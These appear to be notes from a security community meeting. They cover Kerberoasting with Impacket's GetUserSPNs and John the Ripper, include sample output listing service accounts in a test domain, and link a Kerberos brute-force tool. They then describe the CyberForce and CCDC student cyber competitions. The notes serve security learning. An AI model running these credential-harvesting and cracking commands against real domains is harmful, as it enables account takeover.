 @BarrySploit covered Kerberoasting using Impacket

```
impacket-GetUserSPNs -target-domain RebelAlliance.net RebelAlliance/jasonbarry:Password123 -request
#copy hashes into text file called hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
impacket-GetUserSPNs -target-domain testdomain.local testdoamin/bart:Password123!

ServicePrincipalName   Name                MemberOf                                                                                PasswordLastSet             LastLogon  Delegation 
---------------------  ------------------  --------------------------------------------------------------------------------------  --------------------------  ---------  ----------
MSSQL/FSRWDBAS1000000  PORFIRIO_FLOYD      CN=AR-152-distlist1,OU=Groups,OU=AZR,OU=Tier 1,DC=testdomain,DC=local                   2022-02-01 18:11:58.790173  <never>               
MSSQL/ITSWLPT1000000   PORFIRIO_FLOYD      CN=AR-152-distlist1,OU=Groups,OU=AZR,OU=Tier 1,DC=testdomain,DC=local                   2022-02-01 18:11:58.790173  <never>               
MSSQL/ITSWWKS1000001   NOELLE_ROBBINS      CN=IR-198-distlist1,OU=Test,OU=FSR,OU=Tier 2,DC=testdomain,DC=local                     2022-02-01 18:12:00.970634  <never>               
CIFS/ESMWAPPS1000001   WILMA_PORTER        CN=IR-198-distlist1,OU=Test,OU=FSR,OU=Tier 2,DC=testdomain,DC=local                     2022-02-01 18:12:06.046787  <never>               
MSSQL/ITSWAPPS1000000  ADELE_PARKER        CN=LU-bla-admingroup1,OU=HRE,OU=People,DC=testdomain,DC=local                           2022-02-01 18:12:13.600047  <never>               
https/ITSWCTRX1000003  LEVI_DAVENPORT      CN=JO-endesdequ-distlist1,OU=Groups,OU=AWS,OU=Tier 2,DC=testdomain,DC=local             2022-02-01 18:12:14.494331  <never>               
ftp/SECWWKS1000002     HILARY_MEDINA       CN=JE-mfa-admingroup1,OU=Test,OU=SEC,OU=Tier 2,DC=testdomain,DC=local                   2022-02-01 18:12:25.459142  <never>               
MSSQL/GOOWLPT1000003   DEVIN_SANTOS        CN=69-francisca-distlist1,OU=Groups,OU=TST,OU=Stage,DC=testdomain,DC=local              2022-02-01 18:12:27.069247  <never>               
MSSQL/AWSWWKS1000000   SALLY_CHANEY        CN=ST-SigoenCli-distlist1,OU=Groups,OU=ESM,OU=Stage,DC=testdomain,DC=local              2022-02-01 18:12:56.685385  <never>               
POP3/ITSWLPT1000000    KIM_WOODWARD        CN=IR-mcc-distlist1,OU=Devices,OU=SEC,OU=Stage,DC=testdomain,DC=local                   2022-02-01 18:12:59.376549  <never>               
POP3/GOOWCTRX1000000   ERICA_TRAN          CN=76-te_123tit-admingroup1,OU=Test,OU=FIN,OU=Tier 1,DC=testdomain,DC=local             2022-02-01 18:13:01.435944  <never>               
CIFS/HREWLPT1000000    1889824127SA        CN=LE-6491eagle-distlist1,OU=OGC,OU=Tier 2,DC=testdomain,DC=local                       2022-02-01 18:13:03.967228  <never>               
kafka/BDEWAPPS1000003  JAME_DAVID          CN=ME-tmi-admingroup1,OU=Test,OU=BDE,OU=Tier 2,DC=testdomain,DC=local                   2022-02-01 18:13:11.232929  <never>               
CIFS/FSRWVIR1000000    GLENNA_FLEMING      CN=NI-roc-distlist1,OU=T1-Devices,OU=Tier 1,OU=Admin,DC=testdomain,DC=local             2022-02-01 18:13:16.857424  <never>               
ftp/AZRWAPPS1000000    MARCI_PACHECO       CN=66-amoaferna-distlist1,OU=OGC,OU=Stage,DC=testdomain,DC=local                        2022-02-01 18:13:17.670067  <never>               
ftp/GOOWLPT1000002     BERNIE_MADDEN       CN=QU-101-admingroup1,OU=Quarantine,DC=testdomain,DC=local                              2022-02-01 18:13:17.794744  <never>               
CIFS/ESMWLPT1000000    AUGUST_DELACRUZ     CN=SH-atari2600-distlist1,OU=Devices,OU=FSR,OU=Stage,DC=testdomain,DC=local             2022-02-01 18:13:22.623409  <never>               
https/AZRWLPT1000000   LATISHA_SHARPE      CN=NO-berna7946-distlist1,OU=Devices,OU=ESM,OU=Tier 2,DC=testdomain,DC=local            2022-02-01 18:13:23.185358  <never>               
MSSQL/OGCWDBAS1000000  GEORGINA_MCFADDEN   CN=JA-27j-distlist1,OU=Test,OU=AZR,OU=Tier 1,DC=testdomain,DC=local                     2022-02-01 18:13:24.576163  <never>               
MSSQL/HREWLPT1000000   ROBBIE_FLORES       CN=AB-630-admingroup1,OU=GOO,OU=Tier 1,DC=testdomain,DC=local                           2022-02-01 18:13:37.764245  <never>               
```

Kerberos Brute tool - https://github.com/ropnop/kerbrute


---

@dirf-jesseee discussed his envolvement in CyberForce and CCDC


Cyberforce - https://cyberforce.energy.gov/
For OT and IOT

For university students. Competition held once a year. This year it's held on Fri Nov, 4th to Sat Nov 5th

Virtual and In-person

@jesse is part of the vm development team

More details from Jesse:

I have some videos where I work thru issue and expland some things
[10:59 AM]
also some of the videos talk about troubleshooting and what the color boxes mean
Video of intro and getting gitlab - 
https://screencast-o-matic.com/watch/c360bsVujN5
Video of configuring system - 
https://screencast-o-matic.com/watch/c36OfgVuD5L
hello_world -
 https://screencast-o-matic.com/watch/c36OfMVuDGc

For the Red Team, industry folks can join(not just students)

---

CCDC - national Collegiate Cyber Defense Competition

https://www.nationalccdc.org/


